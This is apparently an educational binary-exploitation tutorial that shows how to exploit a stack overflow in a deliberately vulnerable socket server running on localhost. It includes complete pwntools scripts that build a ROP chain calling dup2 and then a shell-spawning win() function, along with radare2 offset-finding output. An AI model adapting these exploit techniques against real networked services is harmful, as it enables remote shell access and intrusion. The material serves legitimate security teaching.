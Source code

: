 ```yaml
---
description: Duplicating the Descriptors
---
```


# Exploit

## Source

I'll include `source.c`, but most of it is socket programming derived from [here](https://www.cs.cmu.edu/afs/cs/academic/class/15213-f99/www/class26/tcpserver.c). The two relevent functions - `vuln()` and `win()` - I'll list below.

{% file src="../../../.gitbook/assets/sockets.zip" caption="Sockets and File Descriptors" %}

```c
void vuln(int childfd) {
    char buffer[30];

    read(childfd, buffer, 500);
    write(childfd, "Thanks!", 8);
}

void win() {
    system("/bin/sh");
}
```

Quite literally an easy [ret2win](../ret2win.md). 

## Exploitation

Start the binary with `./vuln 9001`.

Basic setup, except it's a remote process:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = remote('localhost', 9001)
```

### Testing Offset

I pass in a basic [De Bruijn](../de-bruijn-sequences.md) pattern and pause directly before:

```python
payload = b'AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFA'

pause()
p.sendline(payload)
```

Once the `pause()` is reached, I hook on with radare2 and set a breakpoint at the `ret`.

```text
$ r2 -d -A $(pidof vuln)

[0x7f741033bdee]> pdf @ sym.vuln
[...]
└           0x0040126b      c3             ret

[0x7f741033bdee]> db 0x0040126b
[0x7f741033bdee]> dc
hit breakpoint at: 40126b

[0x0040126b]> pxq @ rsp
0x7ffd323ee6f8  0x41415041414f4141  0x4153414152414151   AAOAAPAAQAARAASA
[...]

[0x0040126b]> wopO 0x41415041414f4141
40
```

Ok, so the offset is `40`.

### Generate Exploit

Should be fairly simple, right?

```python
payload = flat(
    'A' * 40,
    elf.sym['win']
)

p.sendline(payload)
p.interactive()
```

What the hell?

![](../../../.gitbook/assets/image%20%2849%29.png)

But if we look on the server itself:

![](../../../.gitbook/assets/image%20%2848%29.png)

A shell was popped there! This is the [file descriptor issue](./) we talked about before.

So we have a shell, but no way to control it. Time to use `dup2`.

{% hint style="info" %}
I've simplified this challenge a lot by including a call to `dup2()` within the vulnerable binary, but normally you would leak libc via the [GOT](../aslr/ret2plt-aslr-bypass.md) and then use libc's `dup2()` rather than the PLT; this walkthrough is about the basics, so I kept it as simple as possible.
{% endhint %}

### Duplicating File Descriptors

As we know, we need to call `dup2(newfd, oldfd)`. `newfd` will be `4` \(our connection fd\) and `oldfd` will be `0` and `1` \(we need to call it twice to redirect both`stdin` and `stdout`\). Knowing what you do about [calling conventions](../return-oriented-programming/exploiting-calling-conventions.md), have a go at doing this and then caling `win()`. The answer is below.

### Using dup2\(\)

Since we need two parameters, we'll need to find a gadget for RDI and RSI. I'll use `ROPgadget` to find these.

```text
$ ROPgadget --binary vuln | grep "pop rdi"
0x000000000040150b : pop rdi ; ret

$ ROPgadget --binary vuln | grep "pop rsi"
0x0000000000401509 : pop rsi ; pop r15 ; ret
```

Plonk these values into the script.

```python
POP_RDI = 0x40150b 
POP_RSI_R15 = 0x401509 
```

Now to get all the calls to `dup2()`.

```python
payload = flat(
    'A' * 40,

    POP_RDI,
    4,                  # newfd
    POP_RSI_R15,
    0,                  # oldfd -> stdin
    0,                  # junk r15
    elf.plt['dup2'],

    POP_RDI,
    4,                  # newfd
    POP_RSI_R15,
    1,                  # oldfd -> stdout
    0,                  # junk r15
    elf.plt['dup2'],

    elf.sym['win']
)

p.sendline(payload)
p.recvuntil('Thanks!\x00')
p.interactive()
```

And wehey - the file descriptors were successfully duplicated!

![](../../../.gitbook/assets/image%20%2847%29.png)

## Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = remote('localhost', 9001)

POP_RDI = 0x40150b 
POP_RSI_R15 = 0x401509 

payload = flat(
    'A' * 40,

    POP_RDI,
    4,                  # newfd
    POP_RSI_R15,
    0,                  # oldfd -> stdin
    0,                  # junk r15
    elf.plt['dup2'],

    POP_RDI,
    4,                  # newfd
    POP_RSI_R15,
    1,                  # oldfd -> stdout
    0,                  # junk r15
    elf.plt['dup2'],

    elf.sym['win']
)

p.sendline(payload)
p.recvuntil('Thanks!\x00')
p.interactive()
```

## Pwntools' ROP

These kinds of chains are where pwntools' ROP capabilities really come into their own:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = remote('localhost', 9001)

rop = ROP(elf)
rop.raw('A' * 40)
rop.dup2(4, 0)
rop.dup2(4, 1)
rop.win()

p.sendline(rop.chain())
p.recvuntil('Thanks!\x00')
p.interactive()
```

Works perfectly and is much shorter and more readable!

